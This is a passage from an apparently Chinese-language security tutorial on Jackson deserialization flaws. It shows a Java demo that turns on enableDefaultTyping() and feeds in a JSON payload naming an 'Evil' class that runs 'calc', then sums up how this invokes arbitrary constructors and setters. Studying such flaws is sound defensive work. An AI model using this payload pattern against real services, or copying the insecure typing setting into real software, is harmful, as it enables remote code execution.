 ```
        return String.format("Person.age=%d, Person.name=%s, %s", age, name, object == null ? "null" : object);  
    }  
}
```

接着编写反序列化代码

JAVA

```
public class DeserializationObjectRun {  
  
    public static void main(String[] args) throws Exception {  
        ObjectMapper mapper = new ObjectMapper();  
        mapper.enableDefaultTyping();  
  
        String json = "{\"age\":6,\"name\":\"drunkbaby\",\"object\":[\"com.drunkbaby.JacksonVul.Evil\",{\"cmd\":\"calc\"}]}";  
        Person4 p2 = mapper.readValue(json, Person4.class);  
        System.out.println(p2);  
  
    }  
}
```

![img](https://drun1baby.top/2023/12/07/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%EF%BC%88%E4%B8%80%EF%BC%89%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86/calc2.png)

## 0x05 小结

概念虽然多，但是自己跟一下代码，看起来还是非常快的。总而言之就是开启了特殊的反序列化解析方式时，会调用任意的构造函数与 setter 方法
